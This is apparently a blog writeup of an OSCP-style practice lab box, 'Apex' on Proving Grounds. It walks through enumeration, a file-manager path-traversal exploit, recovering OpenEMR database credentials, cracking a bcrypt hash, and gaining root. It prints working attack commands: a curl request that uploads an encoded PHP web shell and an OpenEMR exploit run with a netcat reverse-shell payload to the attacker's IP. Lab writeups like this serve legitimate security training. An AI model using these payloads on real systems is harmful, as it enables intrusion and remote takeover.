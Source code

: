 ```yaml
---
layout: writeup
title: Apex - Proving Grounds
date: 2024-07-21 13:32:20 +0300
description: A Writeup of the Apex Box from Proving Grounds
image: # /assets/images/Flu/Flu_1.png
fig-caption: # Add figcaption (optional)
tags: [LainKusunagi, Linux]
---
```


Here's another writeup for Apex, an Intermediate Proving Grounds box I saw on the [LainKusunagi list of OSCP like machines](https://www.reddit.com/r/oscp/comments/1c8pzyz/lainkusanagi_list_of_oscp_like_machines/). I take note that the community has rated this Very Hard. As usual, I get started with an nmap scan (trying nmap Automator this time) and a quick search of the IP address in the URL bar in case there is a web server on port 80. It looks like there is:

![Apex_1.png](/assets/images/Apex/Apex_1.png){: .center-aligned width="600px"}

Might as well run a directory scan on that as well while I look around. I see a few emails which could be usernames:

![Apex_2.png](/assets/images/Apex/Apex_2.png){: .center-aligned width="600px"}

I also see `contact@apex.offsec`. I try a contact form, but it returns the error: "The form action property is not set!" I'm not expecting an SQLi point there. It seems most of the website is all on this one page, but after checking the top bar, I see that Scheduler is not shown on the main page, so I click that, and it takes me to a login page: 

![Apex_3.png](/assets/images/Apex/Apex_3.png){: .center-aligned width="600px"}

Interesting. I wonder if that URL will show up on the directory scan. Time to check for default creds and exploits. I try a few options for default creds, but I can't get them working. At this point I get the nmap scan back and see: 

```
PORT     STATE SERVICE
80/tcp   open  http
445/tcp  open  microsoft-ds
3306/tcp open  mysql
```

So we have mysql and samba to check out as well. I am able to find a samba share called docs and login using a null username, but it only has two PDFs that don't seem to have anything interesting. I find the same docs later here: `http://192.168.216.145/source/Documents/` but I can't upload a file through SMB to try and execute from that URL. I can't get anything with the MySQL db. The directory search also doesn't seem to find anything interesting, so I focus on web app. It would be better if I could find a version because exploit-db returns 37 entries for exploits. I guess I can started with the unauthenticated ones. 

I tried a few, but I couldn't get anything working. The directory scan also found a directory called `/filemanager` which I intially assumed was somehow a part of the same web service, just because it was nestled within all of the other results. I started to think that maybe it was a a second service running on the same port. I tried uploading a shell, but I couldn't get it to upload, even when changing the filetype to phtml or altering the Mime type. So I started searching for exploits for "Responsive FileManager", again not knowing the version. I tried an RCE that I couldn't get working, but I wanted to find a proof that this might be the correct way forward, so I checked out a path traversal exploit, found [here](https://www.exploit-db.com/exploits/49359). I was able to return /etc/passwd which showed this: `white:x:1000:1000::/home/white:/bin/sh`. I know there was a potential username of wwalter for the doctor Walter White, but this would suggest that the user is actually `white`. I might return to the brute force exploit I found for OpenEMR earlier. But I can continue to check out other possible files first. I can get local.txt from this: `python3 49359.py http://192.168.216.145 PHPSESSID=39l4h8u9blbg9l1e5nmghc56e2 /home/white/local.txt`

I find this exploit which supposedly lets me upload a shell using curl: 

But this returns "forbiden" : `curl -s "http://192.168.216.145/filemanager/execute.php?action=create_file" -d "path=cmd.php&path_thumb=../thumbs/.txt&name=1.txt&new_content=%3c%3f%70%68%70%20%65%63%68%6f%20%73%68%65%6c%6c%5f%65%78%65%63%28%24%5f%47%45%54%5b%27%63%27%5d%29%3b%3f%3e” -H “Cookie: PHPSESSID=39l4h8u9blbg9l1e5nmghc56e2"` 

I try to upload the file with php5, php7, phmtl, and pHP extensions, but I get a 'forbiden' response every time. So the file manager path might not be the path to take, but maybe I can still find a config file with a password which could let me authenticate to the web app. I try this for a while, but I can't seem to get anything at all except `/etc/passwd` and the local.txt file. I go through the open source github pages for both [Responsive FileManager](https://github.com/trippo/ResponsiveFilemanager/tree/master), which showed that it's possible extensions are allow-listed rather than deny-listed, meaning I'm unlikely to upload a working shell, and [OpenEMR](https://github.com/openemr/openemr). I can't seem to find any way for get a OpenEMR file through the filemanager RFI exploit. 

At this point I tried a bunch of different things, in particular trying to find any config files or anything with a password. Unfortunately I could not, and gave up to look for a walkthrough. I'm still a little confused about how the exploit is supposed to actually work. I looked up 3 walkthroughs, two ([1](https://kashz.gitbook.io/proving-grounds-writeups/pg-boxes/apex/5-80-filemanager-9.13.4), [2](https://al1z4deh.medium.com/proving-grounds-apex-834e61a9fc03)) of which modified the [code](https://www.exploit-db.com/exploits/49359) I was already using, one of which did not. The thing is, they modify the code so that the returned file is pasted into Documents, but the [third walkthrough](https://medium.com/@jserna4510/proving-grounds-apex-walkthrough-c46ff7935294) evidently didn't need to, and in my own experience trying a bunch of different things, some those files did show up there, and I definitely didn't modify the code. I could not replicate, but I am certain. I mention it because it appears the linked walkthrough didn't need to either, though it also suggest the file we needed to find `/var/www/openemr/sites/default/sqlconf.php` would eventually be found through the SMB server, which is not necessarily the case. It's understandable though that author may not have found the directory where the smb server pointed to: `/var/www/html/source/Documents` or the web directory: `http://192.168.216.145/source/Documents/`. I am certain that web directory showed the /etc/passwd file, the local.txt file, and others that I'd used the RFI exploit for, and again, I never modified the exploit. I'm not sure exactly how that happened, but eventually I gave up trying to replicate, even though I do feel the third walkthrough was enough to at least validate my experience on the matter. 

Eventually I used the first two walkthroughs and edited the exploit to point `path=` on line 36 to `path=/Documents`. This allowed me to read the sqlconf.php file...psych no it didn't. 

![Apex_4.png](/assets/images/Apex/Apex_4.png){: .center-aligned width="600px"}

Even though the file is shown as having a non-zero size, it opens as blank, and it downloads as 0 bytes. But I can get it from the smbserver. 

![Apex_5.png](/assets/images/Apex/Apex_5.png){: .center-aligned width="600px"}

That openemr:C78maEQUIeQ turn out to be the SQL creds, and from there we can look around. We see databases "information_schema" and "openemr" and use "openemr." There are a lot of tables, but we can zero in on "users" and ultimately "users_secure." We `SELECT * FROM users_secure` and get this:

![Apex_6.png](/assets/images/Apex/Apex_6.png){: .center-aligned width="600px"}

I use namethathash to determine that this is bcrypt or hashcat mode 3200. And we get a password of "thedoctor." That gives us creds of admin:thedoctor which we can use on one of the many authenticated exploits for the openemr service found earlier on. I go with [this one](https://www.exploit-db.com/exploits/45161). The command looks like this: 
`python2 45161.py http://192.168.216.145/openemr -u admin -p thedoctor -c 'busybox nc 192.168.45.235 80 -e /bin/bash'`

I get a shell for `www-data`. And I try the usual low hanging fruit like checking for SUID binaries and `sudo -l`. I run linpeas and lse.sh, but eventually retry `thedoctor` as the root password. 

![Apex_7.png](/assets/images/Apex/Apex_7.png){: .center-aligned width="600px"}

And we're done. Lessons learned - this was a tough one to feel good about as far as lessons learned are concerned. I was able to enumerate and find the correct exploit, but I couldn't ultimately get it working the way it was supposed to. I'm not sure how long that would have taken without looking up a writeup. Changing the path to a different internal directory for an attack using the clipboard would not have occurred to me very quickly, and I guess I can take solace in knowing that I was probably better off looking up that step after a few hours rather than spending a ton more time finding nothing. I also needed to use python2 at one point, not python or python3. I usually do try that, but after having spent a few hours I was pretty tired by the end and double checked my syntax using the writeup. All in all, I don't feel great about this one, but I guess that's why we put the time in. 